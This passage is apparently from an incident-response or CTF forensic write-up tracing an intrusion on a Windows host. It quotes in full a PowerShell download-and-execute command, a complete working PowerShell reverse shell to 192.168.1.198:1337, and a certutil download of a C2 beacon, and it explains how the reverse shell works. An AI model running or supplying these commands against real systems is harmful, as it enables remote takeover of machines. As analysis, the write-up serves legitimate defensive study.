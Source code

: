 After executing FLAG007.ps1, the attacker dropped another file (FLAG897.ps1).

```powershell
@ECHO off
powershell -Command "Invoke-WebRequest -URI http://192.168.1.198:8000/FLAG734.txt -OutFile c:\Windows\Temp\FLAG734.bat; c:\Windows\Temp\FLAG734.bat"
```

Which downloaded and executed a file FLAG734.bat, seen below.

```powershell
powershell -w hidden -nop -c $a='192.168.1.198';$b=1337;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}  
```

FLAG734.bat establishes a reverse shell connection to a 192.168.1.198 and 1337. Here's a breakdown of what it does:

1. It initializes variables **`$a`**, **`$b`**, **`$c`**, **`$nb`**, **`$ob`**, **`$eb`**, **`$e`**, **`$p`**, **`$is`**, **`$os`**, **`$es`**, **`$osread`**, and **`$esread`**. These variables are used for setting up the TCP connection, reading from and writing to streams, and handling input/output/error redirection for the spawned command shell (**`cmd.exe`**).
2. It sets the IP address (**`$a`**) and port number (**`$b`**) to establish the connection.
3. It creates a TCP client object (**`$c`**) and sets its buffer size.
4. It creates byte arrays for reading from and writing to streams.
5. It creates a UTF8 encoding object.
6. It creates a new process object (**`$p`**) for running **`cmd.exe`**.
7. It configures the process object's start info, setting up input/output/error redirection and disabling shell execution.
8. It starts the process (**`$q`**).
9. It enters a loop where it continuously checks for data from the command shell's output and error streams, as well as for data from the established TCP connection. It reads data from these streams and writes it to the TCP stream, effectively relaying input/output/error between the spawned command shell and the established reverse shell connection.

Once the actor got the reverse shell, he ended the TeamViewer session.

The actor then used the reverse shell to deliver and execute the command and control beacon (COURAGEOUS_DRAGSTER.exe) using certutil.exe. 

```powershell
certutil  -urlcache -f http://192.168.1.198:8000/COURAGEOUS_DRAGSTER.exe COURAGEOUS_DRAGSTER.exe
```

The C2 beacon was active until the system was isolated.